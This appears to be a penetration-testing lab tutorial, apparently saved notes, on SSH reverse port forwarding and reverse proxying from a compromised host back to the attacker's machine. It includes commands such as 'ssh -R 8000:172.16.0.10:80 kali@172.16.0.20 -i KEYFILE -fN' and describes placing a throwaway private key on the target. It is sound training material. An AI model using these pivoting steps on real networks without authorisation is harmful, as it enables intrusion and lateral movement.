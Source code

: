 Reverse connections are very possible with the SSH client (and indeed may be preferable if you have a shell on the compromised server, but not SSH access). They are, however, riskier as you inherently must access your attacking machine _from_ the target -- be it by using credentials, or preferably a key based system. Before we can make a reverse connection safely, there are a few steps we need to take:

1. First, generate a new set of SSH keys and store them somewhere safe (`ssh-keygen`):  
    ![ssh-keygen process](https://assets.tryhackme.com/additional/wreath-network/62b2e09ba985.png)  
      
    This will create two new files: a private key, and a public key.  
      
    
2. Copy the contents of the public key (the file ending with `.pub`), then edit the `~/.ssh/authorized_keys` file on your own attacking machine. You may need to create the `~/.ssh` directory and `authorized_keys` file first.
3. On a new line, type the following line, then paste in the public key:  
    `command="echo 'This account can only be used for port forwarding'",no-agent-forwarding,no-x11-forwarding,no-pty`  
    This makes sure that the key can only be used for port forwarding, disallowing the ability to gain a shell on your attacking machine.

The final entry in the `authorized_keys` file should look something like this:

![The syntax shown above, in place within the file](https://assets.tryhackme.com/additional/wreath-network/055753470a05.png)  

Next. check if the SSH server on your attacking machine is running:  
`sudo systemctl status ssh`

If the service is running then you should get a response that looks like this (with "active" shown in the message):  
![systemctl output when checking SSH is active. You should see active (running) in the output](https://assets.tryhackme.com/additional/wreath-network/08746aa1021e.png)  

If the status command indicates that the server is not running then you can start the ssh service with:  
`sudo systemctl start ssh`

The only thing left is to do the unthinkable: transfer the private key to the target box. This is usually an absolute no-no, which is why we generated a throwaway set of SSH keys to be discarded as soon as the engagement is over.

With the key transferred, we can then connect back with a reverse port forward using the following command:  
`ssh -R LOCAL_PORT:TARGET_IP:TARGET_PORT USERNAME@ATTACKING_IP -i KEYFILE -fN   `

To put that into the context of our fictitious IPs: 172.16.0.10 and 172.16.0.5, if we have a shell on 172.16.0.5 and want to give our attacking box (172.16.0.20) access to the webserver on 172.16.0.10, we could use this command on the 172.16.0.5 machine:  
`ssh -R 8000:172.16.0.10:80 kali@172.16.0.20 -i KEYFILE -fN   `

This would open up a port forward to our Kali box, allowing us to access the 172.16.0.10 webserver, in exactly the same way as with the forward connection we made before!

In newer versions of the SSH client, it is also possible to create a reverse proxy (the equivalent of the `-D` switch used in local connections). This may not work in older clients, but this command can be used to create a reverse proxy in clients which do support it:  
`ssh -R 1337 USERNAME@ATTACKING_IP -i KEYFILE -fN`  

This, again, will open up a proxy allowing us to redirect all of our traffic through localhost port 1337, into the target network.

_**Note:** Modern Windows comes with an inbuilt SSH client available by default. This allows us to make use of this technique in Windows systems, even if there is not an SSH server running on the Windows system we're connecting back from. In many ways this makes the next task covering plink.exe redundant; however, it is still very relevant for older systems._  

---

To close any of these connections, type `ps aux | grep ssh` into the terminal of the machine that created the connection:

![Highlighting the process id of the ssh proxy/port forward](https://assets.tryhackme.com/additional/wreath-network/daf8fd5c8540.png)

Find the process ID (PID) of the connection. In the above image this is 105238.

Finally, type `sudo kill PID` to close the connection:![[Pasted image 20240719154307.png]]
